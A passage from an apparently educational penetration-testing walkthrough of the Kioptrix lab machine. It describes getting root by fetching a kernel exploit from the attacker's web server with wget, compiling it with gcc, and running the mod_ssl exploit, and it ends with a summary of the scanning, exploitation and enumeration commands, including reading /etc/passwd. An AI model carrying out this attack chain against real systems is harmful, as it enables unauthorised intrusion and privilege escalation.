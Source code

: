 ```cat /etc/passwd | grep bash``` will provide a list of users present on the system."

Again, searchsploit can be used to find an appropriate kernel exploit:

![kernel](https://github.com/lifesfun101/Offensive-Security/raw/master/Walkthroughs/Kioptrix/searchsploit_kernel.png)

Due to victim&#39;s system having a compiler, the exploit can be transferred to the attacker&#39;s webserver, downloaded to the victim&#39;s system and compiled on the system as show below.

On Kali the file is copied to the web server directory (do not forget to start the webserver with service apache2 start):

![apache](https://github.com/lifesfun101/Offensive-Security/raw/master/Walkthroughs/Kioptrix/searchsploit3.png)

On the victim&#39;s system a world writeable folder should be found and switched into (most of the times /tmp or /dev/shm folders do the job). After that wget command is used to download the exploit from the attacker&#39;s machine and gcc command is used to compile the exploit.

![root](https://github.com/lifesfun101/Offensive-Security/raw/master/Walkthroughs/Kioptrix/root.png)

Tada, root has been obtained.

# Summary of the Commands Used

```bash

arp-scan -l

nmap -p- 192.168.20.139

nmap -sV -sC -p 22,80,111,139,443,1024 192.168.20.139

nikto -h 192.168.20.139

gobuster -u 192.168.20.139 -w /usr/share/wordlists/dirb/common.txt

gobuster -k -u https://192.168.20.139 -w /usr/share/wordlists/dirb/common.txt

searchsploit mod_ssl 2.8.7

searchsploit -p 764

gcc 764.c -o exploit -lcrypto

./exploit | grep "RedHat" | grep "1.3.20"

./exploit 0x6b 192.168.20.139 80

uname -a

cat /etc/*-release

cat /etc/passwd | grep bash

PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"

find / -perm -u=s -type f 2>/dev/null

gcc

searchsploit Kernel 2.4. red hat
```